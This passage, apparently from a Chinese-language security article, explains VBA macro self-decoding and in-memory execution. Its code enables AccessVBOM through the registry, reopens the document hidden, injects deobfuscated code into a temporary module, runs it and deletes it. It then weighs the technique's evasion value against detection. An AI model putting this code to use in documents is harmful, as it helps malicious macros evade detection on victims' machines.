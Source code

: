     
    1Private Sub fngjksnhokdnfd(newValue As Integer)  
    2Dim wsh As Object  
    3Dim regKey As String  
    4Set wsh = CreateObject("WScript.shell")  
    5regKey = "HKEY_CURRENT_USER\Software\Microsoft\Office\" & Application.Version & "\Word\Security\AccessVBOM" '修改注册表启用VBOM  
    6  
    7wsh.RegWrite regKey, newValue, "REG_DWORD"  
    8End Sub  
    

  

b. 写入自身只读副本，动态执行宏代码

创建"Word.Application"对象，并以只读方式打开自身，接下来使用内置代码把混淆后的代码还原回VBA宏代码的形式。

    
    
    1Dim FileName As String  
    2Dim objWord As Word.Application  
    3Set objWord = CreateObject("Word.Application")  
    4FileName = ThisDocument.FullName  
    5objWord.Visible = False  
    6objWord.Documents.Open FileName, ReadOnly:=True  
    

  

创建新的宏模块，并使用InsertLines方法插入解混淆后的宏代码，使用"Application.Run"方法执行VBA宏代码，在执行完成后再移除刚刚添加的宏模块。

    
    
     1Private Sub eviwbejfkaksd(encodedStr As String)  
     2Dim strDecode As String  
     3Dim strNameModule As String  
     4strDecode = gkrnpslmyie(encodedStr) '解混淆函数  
     5Dim nbrLigne As Long  
     6nbrLigne = 2  
     7strNameModule = ThisDocument.VBProject.VBComponents.Add(1).Name  
     8With ActiveDocument.VBProject.VBComponents(strNameModule).codeModule  
     9.InsertLines nbrLigne, strDecode '创建新模组并将解混淆之后的代码插入  
    10End With  
    11Dim strMacro As String  
    12strMacro = strNameModule & ".main"  
    13Application.Run (strMacro)  
    14Application.VBE.ActiveVBProject.VBComponents.Remove VBComponent:=ActiveDocument.VBProject.VBComponents(strNameModule)  
    15End Sub  
    

  

因为是以只读方式打开的文件，并且动态执行，模块添加与移除的过程中在文件系统上并没有创建文件，恶意代码仅仅存于内存中。

  

  

 **02  **总结

VBA代码的自解码与动态执行大大增加了代码混淆与隐蔽的灵活性，配合不同的混淆方式可实现核心代码的高度隐藏，对于特征检测与静态分析有一定隐匿效果。但面对完善的动态分析与行为检测则无所遁形，需要配合其他攻击手法达到更强的防御规避效果。VBA自解码所依赖的VBOM默认被禁止，修改注册表操作本身又易被安全软件告警，使用场景本身有局限性。
